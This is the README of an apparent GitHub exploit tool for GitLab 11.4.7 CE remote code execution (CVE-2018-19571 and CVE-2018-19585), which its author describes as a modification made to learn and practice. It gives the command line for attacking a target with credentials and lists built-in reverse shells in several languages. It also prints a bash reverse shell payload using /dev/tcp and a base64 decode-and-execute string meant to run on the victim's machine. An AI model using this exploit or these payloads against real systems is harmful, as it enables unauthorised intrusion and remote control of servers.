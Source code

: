 # gitlab-RCE-11.4.7
GitLab 11.4.7 CE RCE exploit with different reverse shells.  
CVE-2018-19571: https://nvd.nist.gov/vuln/detail/CVE-2018-19571  
CVE-2018-19585: https://nvd.nist.gov/vuln/detail/CVE-2018-19585

Modification of the version from [Sam Redmond and Tam Lai Yin](https://github.com/ctrlsam/GitLab-11.4.7-RCE) in order to learn and practice.

## How to use

It is written in python3 as all things should be.

Dependencies:
```
pip3 install requests
```

Use:

```
python3 rce_script.py -u <username> -p <password> -g <url without port> -l <local ip> -P <local port> [<shell lang>]
```

By default, the netcat with -e option shell is used.


## Build in shells

Current build-in shells:

  - nc_e
    - Netcat with the -e option.
  - bash: 
    - Bash executed with absolute path.
  - perl: 
    - Perl executed from the $PATH.
  - python3: 
    - Python3 executed from the $PATH.
  - ruby: 
    - Ruby executed from the $PATH.
  - php: 
    - PHP executed from the $PATH. **Note**: Usually doesn't work in the GitLab docker.

## Add user-defined shells

Some shells contain characters thats doesn't get along with the request encoding. Therefore they are encoded in Base64 and then decoded and executed in the victim's machine.

If you want to add your own shell, add a value to the ```payloads_dict``` structure.

You must define the following:

```python
'bash': {
    # If the raw_payload can be executed withoud encoding
    'safe': False,
    # Payload, must contain the references for the local_ip and for the local_port
    'raw_payload': 'bash -i >& /dev/tcp/{local_ip}/{local_port} 0>&1',
    # How to execute the payload if safe is False. Must conatin the reference for payload
    'exec_string': 'echo {payload} | base64 -d | /bin/bash'
}
```

## Disclaimer

The HTML parsing is pretty hardcoded, it may break easily.



